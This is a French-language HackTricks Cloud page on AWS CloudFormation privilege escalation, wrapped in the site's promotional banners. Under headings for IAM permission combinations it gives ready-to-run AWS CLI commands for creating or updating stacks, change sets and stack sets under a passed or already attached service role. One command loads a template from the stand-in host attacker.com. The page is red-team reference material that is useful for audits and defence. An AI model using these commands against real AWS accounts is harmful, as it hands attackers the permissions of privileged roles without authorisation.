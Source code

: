 # AWS - Cloudformation Privesc

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## cloudformation

Pour plus d'informations sur cloudformation, consultez :

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Un attaquant avec ces permissions **peut escalader les privilèges** en créant une **pile CloudFormation** avec un modèle personnalisé, hébergé sur son serveur, pour **exécuter des actions sous les permissions d'un rôle spécifié :**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Dans la page suivante, vous avez un **exemple d'exploitation** avec la permission supplémentaire **`cloudformation:DescribeStacks`** :

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impact potentiel :** Privesc au rôle de service cloudformation spécifié.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Dans ce cas, vous pouvez **abuser d'une stack cloudformation existante** pour la mettre à jour et escalader les privilèges comme dans le scénario précédent :
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner la permission `UpdateStack`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Privesc au rôle de service cloudformation spécifié.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Si vous avez cette permission mais **pas `iam:PassRole`**, vous pouvez toujours **mettre à jour les piles** utilisées et abuser des **rôles IAM déjà attachés**. Consultez la section précédente pour un exemple d'exploitation (il suffit de ne pas indiquer de rôle dans la mise à jour).

La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner la permission `UpdateStack`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Privesc au rôle de service cloudformation déjà attaché.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un attaquant avec des permissions pour **passer un rôle et créer & exécuter un ChangeSet** peut **créer/mettre à jour une nouvelle pile cloudformation et abuser des rôles de service cloudformation** tout comme avec CreateStack ou UpdateStack.

L'exploitation suivante est une **variation de la**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) utilisant les **permissions ChangeSet** pour créer une pile.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner des permissions `ChangeSet`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Privesc aux rôles de service cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

C'est comme la méthode précédente sans passer **les rôles IAM**, donc vous pouvez simplement **abuser de ceux déjà attachés**, il suffit de modifier le paramètre :
```
--change-set-type UPDATE
```
**Impact potentiel :** Privesc au rôle de service cloudformation déjà attaché.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un attaquant pourrait abuser de ces permissions pour créer/mette à jour des StackSets afin d'abuser des rôles cloudformation arbitraires.

**Impact potentiel :** Privesc aux rôles de service cloudformation.

### `cloudformation:UpdateStackSet`

Un attaquant pourrait abuser de cette permission sans la permission passRole pour mettre à jour des StackSets afin d'abuser des rôles cloudformation attachés.

**Impact potentiel :** Privesc aux rôles cloudformation attachés.

## Références

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
